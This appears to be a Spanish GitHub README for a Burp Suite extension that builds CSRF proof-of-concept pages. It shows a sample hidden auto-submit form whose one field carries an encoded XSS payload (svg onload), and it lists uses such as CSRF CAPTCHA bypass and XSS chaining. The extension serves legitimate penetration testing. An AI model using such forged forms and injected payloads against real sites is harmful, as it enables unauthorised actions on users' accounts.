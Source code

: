 # CSRF PoC Generator Avanzado - Burp Suite Extension  

![Burp Suite](https://img.shields.io/badge/Burp_Suite-Compatible-green)  
![Versión](https://img.shields.io/badge/Versión-1.0-blue)  
![Licencia](https://img.shields.io/badge/Licencia-MIT-red)  

## 🌟 Descripción Avanzada  
**CSRF PoC Generator Avanzado** es una extensión profesional para Burp Suite diseñada para automatizar la creación de Proofs of Concept (PoC) sofisticados para vulnerabilidades CSRF (Cross-Site Request Forgery), incluyendo casos complejos con:  

- Parámetros con encoding especial  
- Headers personalizados  
- Tokens CSRF bypass  
- Payloads XSS combinados  

## 🎯 Público Objetivo  
- **Pentesters profesionales** que necesitan demostrar impactos reales  
- **Equipos Red Team** en ejercicios de simulación de ataques  
- **Auditores de seguridad** que requieren informes técnicos detallados  
- **Developers de aplicaciones críticas** que validan protecciones anti-CSRF  

## 🔥 Features Técnicas  

### 🛠️ Generación Automatizada  
```html
<!-- Generado por CSRF PoC de Curiosidades De Hackers -->
<html>
  <body>
    <form action="https://ejemplo.com/index.com" method="POST">
      <input type="hidden" name="subemail" value="test@gmail&#46;com" />
      <input type="hidden" name="subname" value="" />
      <input type="hidden" name="subscribe.y" value="3" />
      <input type="hidden" name="subscribe.x" value="ssssssss" />
      <input type="hidden" name="mlist" value="ensnc&#95804&#59;&#58;Canoga&#32;&lt;svg&#32;onload&#61;confirm&#40;1&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

### 🔐 Codificación Avanzada
Escape inteligente de caracteres (<, >, &, etc.)

Soporte para:

URL Encoding

HTML Entities

JavaScript Unicode Escape

### ⚡ Integración con Burp
Click derecho en cualquier request

Seleccionar "Generar CSRF PoC Avanzado"

El HTML se copia automáticamente al portapapeles

### 🚀 Instalación
Descargar el .jar desde Releases

En Burp Suite:

Extender > Add > Seleccionar el archivo .jar  
## 📸 Demo
![1](https://github.com/user-attachments/assets/00574069-aa73-4d54-93e7-b11257569050) ![2](https://github.com/user-attachments/assets/0efba056-cbeb-480a-919b-89cc77c01ad2) ![3](https://github.com/user-attachments/assets/d414c41e-6a71-4da9-ac5e-4786db744f2d) ![4](https://github.com/user-attachments/assets/4d9df483-6fe2-4a48-a3bc-07144a2704ad)



 

### 🛡️ Casos de Uso Avanzados
Bypass de CAPTCHAs mediante CSRF

Chaining con XSS para ataques combo

Explotación de APIs REST con Content-Type: JSON
